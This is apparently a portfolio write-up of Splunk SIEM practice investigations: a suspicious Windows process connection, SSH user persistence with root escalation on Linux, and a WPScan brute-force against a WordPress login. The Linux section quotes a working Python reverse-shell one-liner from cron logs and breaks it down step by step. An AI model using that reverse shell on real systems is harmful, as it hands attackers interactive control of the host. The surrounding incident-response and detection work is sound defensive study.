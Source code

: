 # Log Analysis & Threat Detection with SIEM (Splunk)

## Windows Log Analysis (Practice Scenario)
**Scenario:** I investigated an alert about a suspicious network connection on port 5678 from host WIN-105.
![Windows query filtering to EventCode=3, port 5678, WIN-105](pics/windows-1.png)  
![Expanded Sysmon EventCode=3 with process image and destination](pics/windows-2.png)  

From the query results, the IP address that the connection was established with was 10.10.114.80 (the destinationIP).
Sharepoint.exe was the process that initiated that suspicious connected as the image field with eventcode=3 shows the full path of the process: Image: C:\Windows\Temp\SharePoInt.exe

Since I know the process that initiated this suspicious connection, I can extract the MD5 hash values to fingerprint a malicious binary 

![Hash extraction for SharePoInt.exe](pics/windows-3.png)

**Findings:** EventCode 3 logs revealed outbound traffic initiated by Sharepoint.exe to a remote IP. The process hash was extracted and identified as malicious.
**Recommendations:** restrict execution from temp directories, deploy EDR hash monitoring.

## Linux Log Analysis (Practice Scenario)
**Scenario**
I received an alert indicating possible persistence through the creation of a new remote-SSH user on an Ubuntu server. My task is to investigate the logs in Splunk (index=task5) and determine exactly what occurred.

Time stamp of the remote-ssh account creation: 08/12/25 9:52:57.170 AM (useradd remote-ssh)
![Auth log timeline and sudo/su events around user creation](pics/linux-1.png)  



User Escalating Privileges: jack-brown (successfully escalated to root)
![Zoom on sudo/su session open/close with command context](pics/linux-2.png)  


Now i will use process-sshd to find the ip address of the user who escalated privileges to root (jack brown) and look  for SSHD “Accepted password” logs in auth.log
![Accepted/Failed password events with client IP](pics/linux-3.png)  


The second event shows : sshd[25955]: Accepted password for jack-brown from 10.14.94.82 port 54451 ssh2, showing the source IP to be 10.14.94.82


There were 4 failed login attempts before the successful login, which also list the same source IP (10.14.94.82)
![Filtering sshd events and Accepted/Failed sequences](pics/inux-4.png)

During Linux log analysis, I identified a malicious cron job configured with a Python reverse shell. The code attempted to establish a persistent outbound connection to the attacker at IP 10.10.33.31 on port 7654. This confirmed the persistence mechanism was set to maintain remote access via reverse shell.

**The Splunk query was:**

index=task5 source="syslog" process=CRON

This pulled log entries related to scheduled jobs (cron tasks). Cron is often abused by attackers for persistence because it executes commands at intervals.

The log output contains a suspicious cron job that executes Python one-liners:

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.33.31",7654)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/sh","-i"]);'

**Breakdown of python one-liner:**

socket.socket(...) → Creates a network socket.

s.connect(("10.10.33.31",7654)) → Connects to IP 10.10.33.31 on port 7654.

os.dup2(s.fileno(),0/1/2) → Redirects standard input, output, and error to the socket (so the attacker can control the shell remotely).

subprocess.call(["/bin/sh","-i"]) → Spawns an interactive shell.

**Findings**
Remote-SSH Account Creation: 2025-08-12 09:52:57
User Escalating Privileges: jack-brown (successfully escalated to root)
Source IP: 10.14.94.82
Failed Login Attempts Prior to Success: 4
Persistence Mechanism Port: 7654

**Analysis**
This activity demonstrated persistence via creation of a new SSH user, followed by brute-force attempts and successful privilege escalation to root. By correlating login timestamps, user actions, and source IP addresses, I confirmed malicious activity and documented indicators of compromise (IOC).

**Recommendations:** enforce SSH key-based auth, monitor useradd and cron changes.

## Web Log Analysis (Practice Scenario)
**Scenario**
I received an alert about a spike in activity on the organization’s web server. My task was to investigate web logs (index=task6) in Splunk to determine the source, nature, and classification of the activity.
Looking for URI path that had the highest number of requests, path/wp-login.php had the highest, at 905 requests. Since there’s 905 requests, this is likely to be a brute force attack:
![Field discovery showing /wp-login.php dominating requests](pics/weblog-1.png)  


Identified the IP Address that was the source of the activity connected to /wp-login.php as 10.10.243.134 as shown through the clientip as well as the tool the threat actor used via useragent, identified as WPScan :
![Event detail: clientip, referrer, method=POST, useragent=WPScan](pics/weblog-2.png)


**Findings**
URI Path with Highest Requests: /wp-login.php
Source IP Address: 10.10.243.134
Classification: Brute-force attack targeting WordPress login endpoint
Threat Actor Tool: WPScan (identified via user-agent string in the logs)

**Analysis**
This attack represented a credential brute-force attempt against the WordPress login portal. By correlating repeated requests to /wp-login.php from the same source IP and identifying the user-agent string belonging to WPScan, I confirmed the activity as automated brute forcing.

**Response Recommendation**
Implement rate limiting and account lockouts on /wp-login.php.
Deploy Web Application Firewall (WAF) rules to block repeated requests.
Consider multi-factor authentication (MFA) to mitigate credential stuffing attempts.